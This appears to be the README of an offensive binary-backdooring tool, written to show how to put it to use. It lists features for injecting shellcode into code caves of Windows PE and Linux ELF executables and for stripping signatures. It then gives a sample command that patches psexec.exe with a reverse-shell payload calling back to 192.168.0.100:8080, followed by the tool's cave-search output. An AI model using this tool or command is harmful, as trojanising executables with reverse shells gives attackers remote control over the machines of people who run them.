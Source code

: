 ##Features:

###PE Files

    Can find all codecaves in an EXE/DLL.
    By default, clears the pointer to the PE certificate table, thereby unsigning a binary.
    Can inject shellcode into code caves or into a new section.
    Can find if a PE binary needs to run with elevated privileges.
    When selecting code caves, you can use the following commands:
      -Jump (j), for code cave jumping
      -Single (s), for patching all your shellcode into one cave
      -Append (a), for creating a code cave
      -Ignore (i), nevermind, ignore this binary
    Can ignore DLLs.

###ELF Files

    Extends 1000 bytes (in bytes) to the TEXT SEGMENT and injects shellcode into that section of code.

###Overall
    
    The user can :
      -Provide custom shellcode.
      -Patch a directory of executables/dlls.
      -Select x32 or x64 binaries to patch only.
      -Include BDF is other python projects see pebin.py and elfbin.py

---------------------------------------------

Sample Usage:
---

###Patch an exe/dll using an existing code cave:

    ./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp 

    [*] In the backdoor module
    [*] Checking if binary is supported
    [*] Gathering file info
    [*] Reading win32 entry instructions
    [*] Looking for and setting selected shellcode
    [*] Creating win32 resume execution stub
    [*] Looking for caves that will fit the minimum shellcode length of 402
    [*] All caves lengths:  (402,)
    ############################################################
    The following caves can be used to inject code and possibly
    continue execution.
    **Don't like what you see? Use jump, single, append, or ignore.**
    ############################################################
    [*] Cave 1 length as int: 402
    [*] Available caves:
    1. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e4d5 End: 0x2e6d0; Cave Size: 507
    2. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e6e9 End: 0x2e8d5; Cave Size: 492
    3. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e8e3 End: 0x2ead8; Cave Size: 501
    4. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2eaf1 End: 0x2ecdd; Cave Size: 492
    5. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2ece7 End: 0x2eee0; Cave Size: 505
    6. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2eef3 End: 0x2f0e5; Cave Size: 498
    7. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f0fb End: 0x2f2ea; Cave Size: 495
    8. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f2ff End: 0x2f4f8; Cave Size: 505